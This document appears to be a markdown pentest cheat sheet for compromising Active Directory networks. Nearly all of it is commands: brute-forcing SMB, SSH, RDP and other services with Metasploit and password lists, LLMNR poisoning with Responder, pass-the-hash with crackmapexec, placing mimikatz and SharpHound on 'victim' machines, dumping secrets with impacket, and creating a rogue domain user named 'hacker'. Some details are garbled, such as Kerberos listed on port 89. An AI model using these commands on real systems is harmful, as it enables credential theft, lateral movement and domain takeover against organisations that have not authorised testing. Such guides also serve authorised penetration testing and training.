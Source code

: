 # Steps:-
```
1. First of all we want Inventory of organization
2. Separate IP’S of Systems, Servers, Networking Devices   
3. Verify these IP'S Using PingInfo / AngryIPScanner
4. Standeruser For Auth Scan but try from your END to find user/pass
```
# Target 
```
For Ad Systems
1). Getting IP
2). Getting Local USER
3). Getting Local USER PASSWORD
4). Dump All Hashes 
5). Enumerate for AD User
6). Enumerate for AD User Password
7). Enumerate for AD Domain
8). Enumerate for AD Domain Password
9). Login
```
# Brute-Force As Local User On These Port's 
```
FTP(21) 
SSH(22) 
Kerberos(89) 
SMB(139/445) 
LDAP(389) 
MSSQL(1433/1434) 
MYSQL(3306) 
RDP(3389) 
VNC(5900)
```
# Tool 1. TIP ( But Go For SMB First ) Only For local user account.
```
msfconsole
auxiliary/scanner/smb/smb_login
set PASS_FILE /root/Desktop/pass.txt
set USER_FILE /root/Desktop/user.txt
set RHOSTS file:/root/Desktop/host.txt
```
```
use auxiliary/scanner/smb/smb_enumshares
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
```
use auxiliary/scanner/smb/smb_lookupsid
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
# If AD Implemented.
```
set SMBDomain ADDomain 
```
# If LOCKOUT Policy is Set Then Use.
```
set ABORT_ON_LOCKOUT true
```
# Tool 2. Getting USERLLMNR/NBT-NS Poising with the help of Responder.
```
sudo responder -I ens33 -wdrf
```
# Tool 3. ENUM4LINUX.
```
enum4linux -U 10.10.0.50
enum4linux -S 10.10.0.50
enum4linux -P 10.10.0.50
enum4linux -o 10.10.0.50
enum4linux -U 10.10.0.50
enum4linux -a 10.10.0.50
```
# Tool 4. SMBMAP.
```
smbmap -H 192.168.1.40
smbmap -H 192.168.1.17 -u user -p pass

```
# Tool 5. SMBCLIENT.
```
smbclient -L //10.10.0.50/
smbclient -L //10.10.0.50/ -U '' -N
smbclient //10.10.0.50/tmp
```
# Tool 6. KERBRUTE. 
```
msf> use auxiliary/gather/kerberos_enumusers
gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>
smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>
smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
enum4linux -a -u "user" -p "password" <DC IP>
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```

# Tool 7. Bloodhound.
```
First Start ------>>>>> neo4j console
Open it in browser ------>>>>> http://localhost:7474/
Login with ------>>>>> neo4j/123456 Default pass is {neo4j/neo4j}
Open ------>>>>> bloodhound in terminal
Login ------>>>>> user/pass
```

<h3> Connect with victim windows systems and put these 3 files. </h3>

```
1). mimikatz.exe
2). powerView.ps1
3). SharpHound.ps1
```

<h3> Use these cmds in victim systems. </h3>

```
1). powershell -ep bypass
2). ..\SharpHound.ps1
3). Invoke-Bloodhound -CollectionMethod All -Domain controller.local -ZipFileName loot.Zip
```

<h3> Take loot.Zip file to import bloodhound in our systems.  </h3>

```
1). import graph ---->>> uploaded file here
2). Check it and enjoy it.
```

```
# Tool 8. IMPACKET.
```
impacket-psexec ad.domain/user:pass@IP
impacket-wmiexec ad.domain/user:pass@IP
impacket-secretsdump ad.domain/user:pass@IP
impacket-GetADUsers ad.domain/user:pass@IP
impacket-mimikatz ad.domain/user:pass@IP
impacket-smbpasswd ad.domain/user:pass@IP
```
# Tool 9. RPC-Client.
```
rpcclient -U ad.domain%user:pass IP
Domain Information Query ----->>>> querydominfo
Enumerating Domain Users ----->>>> enumdomusers
Enumerating Domain Groups ----->>>> enumdomgroups
Group Queries ----->>>> querygroup 0x200
User Queries ----->>>> queryuser User
Enumerating Privileges ----->>>> enumprivs
Get Domain Password Information ----->>>> getdompwinfo
Creating Domain User  ----->>>> createdomuser hacker  ----->>>> setuserinfo2 hacker 24 Password@1
Delete Domain User ----->>>> deletedomuser hacker
Net Share Enumeration ----->>>> netshareenumall/netshareenum
```
# Exploit Services by Searchsploit, Exploit DB
